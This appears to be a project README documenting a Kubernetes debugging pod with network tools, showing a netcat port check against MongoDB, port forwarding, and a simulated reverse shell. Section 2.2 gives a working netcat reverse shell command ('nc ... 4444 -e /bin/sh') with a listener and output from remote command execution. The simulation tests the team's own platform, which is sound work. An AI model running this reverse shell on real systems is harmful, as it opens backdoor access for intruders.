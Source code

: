 # 1 - Objective

We want to have a pod with networking tools to check connections/attacks on our existing K8S platform:

- See [github link](hhttps://github.com/leodotcloud/swiss-army-knife)
- See all the [network tools installed](https://github.com/leodotcloud/swiss-army-knife/blob/main/package/Dockerfile)
- See [quick start](https://dev.to/soerenmetje/debug-kubernetes-applications-a-swiss-army-knife-container-56id)

# 2 - Tests done

- 2.1) Check mongoDB port is open in pod
```
Get Pod IP : smk get pods -A -o wide
Connect to swiss-army-knife: kubectl exec -n mongo swiss-army-knife  -it -- /bin/bash

    netcat -v -z -w 4 10.1.26.181 27017
    Connection to 10.1.26.181 27017 port [tcp/*] succeeded!
```
- 2.2)  simulate a Reverse Shell (Backdoor) attack
```
2.2.1) Attacker machine: create a listener in attacker machine/VM/pod, for example swiss-army-knife
    nc -lvp 4444
    Listening on [0.0.0.0] (family 0, port 4444)
```
```
2.2.2) Attacked machine: reverse shell in the machine/VM/pod you want to open the backdoor
    nc swiss-army-knife-ip 4444 -e /bin/sh
```
```
2.2.3) Attacker machine: you can type any command now because you are connected to the attacked machine through reverse shell 
    Connection from 10-1-26-178.taskmaster-ikz-svc.mongo.svc.cluster.local 45981 received!
    uname -a
    Linux taskmaster-ikz-74fbdbcd84-zzjv5 5.15.153.1-microsoft-standard-WSL2 #1 SMP Fri Mar 29 23:14:13 UTC 2024 x86_64 Linux
```
- 2.3) Port Forwarding
Netcat can also be used for simple port forwarding or redirection. For instance, if you want to forward a port from one machine to another, you can do the following:
```
Forward Port  80 to Another App Machine in forward-port-server:
    nc -lk 80 | nc target_app_host 8080

Outsite: curl http://forward-port-server

In forward-port-server:
    tcpdump -i eth0 tcp port 80

```